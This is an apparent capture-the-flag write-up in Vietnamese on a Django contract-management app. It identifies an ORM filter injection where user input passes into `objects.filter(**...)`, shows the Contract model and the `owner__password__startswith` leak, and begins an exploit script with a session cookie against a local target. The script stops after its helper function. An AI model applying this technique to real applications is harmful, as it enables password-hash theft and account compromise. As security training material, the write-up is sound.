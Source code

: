 Dòng này khá sus `contracts = Contract.objects.filter(**filtered_data)` vì ta có thể tìm kiếm những thứ k phải là original như đã phân tích trong blog này https://www.elttam.com/blog/plormbing-your-django-orm/

    
```python
class Contract(models.Model):
    class Status(models.TextChoices):
        DRAFT = 'draft', 'Draft'
        PENDING_REVIEW = 'pending_review', 'Pending Review'
        APPROVED = 'approved', 'Approved'
        ACTIVE = 'active', 'Active'
        COMPLETED = 'completed', 'Completed'
        CANCELLED = 'cancelled', 'Cancelled'

    title = models.CharField(max_length=200, help_text="Title of the contract")
    description = models.TextField(help_text="Detailed description of the contract")
    start_date = models.DateField(help_text="Start date of the contract")
    end_date = models.DateField(help_text="End date of the contract", null=True, blank=True)
    status = models.CharField(
        max_length=20,
        choices=Status.choices,
        default=Status.DRAFT,
        help_text="Current status of the contract"
    )
    created_at = models.DateTimeField(auto_now_add=True)
    updated_at = models.DateTimeField(auto_now=True)
    owner = models.ForeignKey(
        settings.AUTH_USER_MODEL,
        on_delete=models.CASCADE,
        related_name='contracts',
        help_text="User who owns the contract"
    )

    terms = models.TextField(help_text="Terms and conditions of the contract")
    amount = models.DecimalField(max_digits=10, decimal_places=2, help_text="Total contract amount")
    attachments = models.FileField(upload_to='contracts/attachments/', null=True, blank=True, help_text="Any associated documents or files")

    def __str__(self):
        return f"{self.title} ({self.get_status_display()})"    
```
    
Sau khi đọc lại đoạn trên thì mình thấy có thể leak ra password qua owner__password__startswith
    
Đây là đoạn script mình dùng để exploit password của admin
    
```python
import requests
import re
import string

url = 'http://localhost:1337'
token = "66c20ac61de09900103a2a779e88beee"
admin_pass = ""

s = requests.session()
s.cookies.update({'_contract_frontend_session': token})

def filter(filters):
    r = s.get(f'{url}/contracts/manage',params=filters)
    assert r.status_code == 200
    cnt = re.findall(r'<<a href="/contracts/(.*)"', r.text)
    return len(cnt)

```
